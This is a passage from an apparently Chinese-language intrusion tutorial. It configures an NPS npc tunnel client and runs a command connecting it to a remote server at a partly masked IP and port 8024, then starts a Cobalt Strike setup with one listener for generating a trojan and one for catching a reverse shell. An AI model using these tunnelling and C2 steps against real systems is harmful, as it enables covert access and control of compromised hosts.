这里我感觉，其实都不用修改，因为下面启动的时候，还需要添加服务器的IP与端口。

```
server_addr=124.XXX.XXX.62:8024   ##设置服务端地址:端口默认8024
vkey=123                          ##客户端密钥
```

![image-20230615145702717](assets/JXuOkm1lqWyxBdT.png)

#### 3.2.2.2. 启动客户端

这里输入命令即可，不过需要注意这个是Linux客户端。

```
./npc -server=124.XX.XX.62:8024 -vkey=123 -type=tcp  ##这里就是设置服务端IP与端口 设置的密钥 连接的协议类型。
```

![image-20230615150311171](assets/CUxHwtTWyiQAjuz.png)

#### 3.2.2.3. 隧道状态

这里就可以查看一下隧道的状态，可以看到这里是成功上线了。

![image-20230615150355816](assets/r5hcRilvexgFYmp.png)

## 3.3. CS设置

这里CS需要设置两个监听器，一个用于生成木马，一个用于接收反弹shell。
